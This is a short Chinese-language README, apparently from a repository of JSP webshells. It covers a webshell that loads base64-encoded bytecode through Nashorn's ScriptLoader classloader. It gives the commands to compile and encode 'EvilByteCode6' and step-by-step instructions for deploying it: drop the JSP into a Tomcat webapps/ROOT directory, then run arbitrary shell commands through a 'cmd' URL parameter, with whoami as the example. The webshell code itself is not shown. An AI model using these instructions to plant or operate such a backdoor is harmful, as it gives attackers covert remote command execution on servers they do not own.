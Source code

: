 ### jdk.nashorn.internal.runtime.ScriptLoader类加载器加载的JSP Webshell

生成字节码：
```
javac EvilByteCode6.java
cat EvilByteCode6.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问6.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/6.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```